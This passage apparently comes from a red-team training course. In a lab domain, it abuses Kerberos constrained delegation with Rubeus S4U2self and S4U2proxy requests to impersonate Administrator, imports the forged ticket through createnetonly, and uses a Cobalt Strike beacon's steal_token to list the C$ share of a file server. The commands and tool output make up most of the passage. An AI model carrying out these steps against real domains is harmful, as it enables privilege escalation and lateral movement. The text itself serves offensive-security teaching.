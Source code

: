 ```batch
[*] Action: S4U

[*] Building S4U2self request for: 'LON-WS-1$@CONTOSO.COM'
[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Sending S4U2self request to 10.10.120.1:88
[+] S4U2self success!
[*] Got a TGS for 'Administrator' to 'LON-WS-1$@CONTOSO.COM'
[*] base64(ticket.kirbi):

      doIF8[...snip...]MtMSQ=
```

If we pass this ticket to Rubeus `describe`, we'll see that the service name is the computer's own SamAccountName, the username is that of the user we want to impersonate, and the forwardable flag is set.

{% code overflow="wrap" %}
```batch
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe /ticket:doIF8[...snip...]MtMSQ=
```
{% endcode %}

<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/d748f556e346211ebad97ac551e61b38.png" alt="" width="100%"><figcaption></figcaption></figure>

Rubeus will take this ticket for us and uses it to submit an S4U2proxy request for the service specified in the `/msdsspn` parameter.  The ticket we get back will be a usable service ticket for the impersonated user.

```batch
[*] Impersonating user 'Administrator' to target SPN 'cifs/lon-fs-1'
[*] Building S4U2proxy request for service: 'cifs/lon-fs-1'
[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Sending S4U2proxy request to domain controller 10.10.120.1:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/lon-fs-1':

      doIGf[...snip...]ZzLTE=
```

Since this is a service ticket for CIFS, we could use it to list the computer's C$ drive.

```batch
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:doIGf[...snip...]ZzLTE=
  
[*] Using CONTOSO.COM\Administrator:FakePass

[*] Showing process : False
[*] Username        : Administrator
[*] Domain          : CONTOSO.COM
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 3380
[+] Ticket successfully imported!
[+] LUID            : 0x9b6c93
 
beacon> steal_token 3380
beacon> ls \\lon-fs-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     01/23/2025 15:44:52   $Recycle.Bin
          dir     01/23/2025 13:57:51   $WinREAgent
          dir     01/23/2025 13:47:37   Documents and Settings
```